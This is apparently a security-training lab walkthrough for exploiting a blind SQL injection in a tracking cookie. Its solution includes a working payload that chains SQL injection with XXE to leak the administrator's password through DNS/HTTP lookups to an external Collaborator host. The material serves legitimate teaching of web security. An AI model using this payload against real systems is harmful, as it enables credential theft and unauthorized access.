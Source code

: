 This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie.

The SQL query is executed asynchronously and has no effect on the application's response. However, you can trigger out-of-band interactions with an external domain.

The database contains a different table called `users`, with columns called `username` and `password`. You need to exploit the blind SQL injection vulnerability to find out the password of the `administrator` user.

To solve the lab, log in as the `administrator` user.

#### Note

> To prevent the Academy platform being used to attack third parties, our firewall blocks interactions between the labs and arbitrary external systems. To solve the lab, you must use Burp Collaborator's default public server.

---

**Solution:**
1. Visit the front page of the shop, and use Burp Suite Professional to intercept and modify the request containing the `TrackingId` cookie.
2. Modify the `TrackingId` cookie, changing it to a payload that will leak the administrator's password in an interaction with the Collaborator server. For example, you can combine SQL injection with basic XXE techniques as follows:

```php
TrackingId=x'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//'||(SELECT+password+FROM+users+WHERE+username%3d'administrator')||'.BURP-COLLABORATOR-SUBDOMAIN/">+%25remote%3b]>'),'/l')+FROM+dual--
```

3. Right-click and select "Insert Collaborator payload" to insert a Burp Collaborator subdomain where indicated in the modified `TrackingId` cookie.
4. Go to the Collaborator tab, and click "Poll now". If you don't see any interactions listed, wait a few seconds and try again, since the server-side query is executed asynchronously.
5. You should see some DNS and HTTP interactions that were initiated by the application as the result of your payload. The password of the `administrator` user should appear in the subdomain of the interaction, and you can view this within the Collaborator tab. For DNS interactions, the full domain name that was looked up is shown in the Description tab. For HTTP interactions, the full domain name is shown in the Host header in the Request to Collaborator tab.
6. In the browser, click "My account" to open the login page. Use the password to log in as the `administrator` user.

- Collaborator is a pro only tool.

